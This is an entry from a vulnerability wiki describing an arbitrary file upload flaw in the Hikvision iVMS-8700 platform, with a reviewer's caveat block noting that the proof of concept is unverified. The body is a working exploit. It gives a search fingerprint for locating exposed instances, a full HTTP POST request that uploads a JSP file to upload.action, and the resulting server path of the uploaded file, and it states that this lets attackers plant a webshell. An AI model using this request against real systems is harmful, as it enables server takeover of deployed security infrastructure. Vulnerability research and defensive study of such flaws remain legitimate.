



# Hikvision iVMS-8700综合安防管理平台 upload.action 任意文件上传漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Hikvision iVMS-8700
- 本文讨论：eps/resourceOperations/upload.action上传
- 版本、权限与配置前提：请求含CAS用户名和两条会话Cookie，版本未列
- 资料类型：文件上传复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 鉴权条件未说明，不能将带用户会话上传视作未认证
- 随机返回文件名的获取只在截图；文件执行证据未转录
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证
- 样例会话、令牌或共享秘密已按具体值遮罩中段并保留首尾；不能直接用于请求。公开默认/测试凭据与算法常量不因长得像密码而改写；其用途仍须按原文说明判断

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留
- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- 匿名/低权限边界、修复构建和截图待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

Hikvision iVMS-8700综合安防管理平台存在任意文件上传漏洞，攻击者通过发送特定的请求包可以上传Webshell文件控制服务器

## 漏洞影响

Hikvision iVMS-8700综合安防管理平台

## 网络测绘

```
icon_hash="-911494769"
```

## 漏洞复现

登录页面



发送请求包上传文件

```http
POST /eps/resourceOperations/upload.action HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: MicroMessenger
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ISMS_8700_Sessionname=CA0**************************953; CAS-USERNAME=058; ISMS_8700_Sessionname=4D8**************************710
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Length: 212

------WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Disposition: form-data; name="fileUploader";filename="test.jsp"
Content-Type: image/jpeg

<%out.print("hello");%>
------WebKitFormBoundaryTJyhtTNqdMNLZLhj--
```

上传路径



```
/eps/upload/769badc8ef5944da804a4ca3c8ecafb0.jsp
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
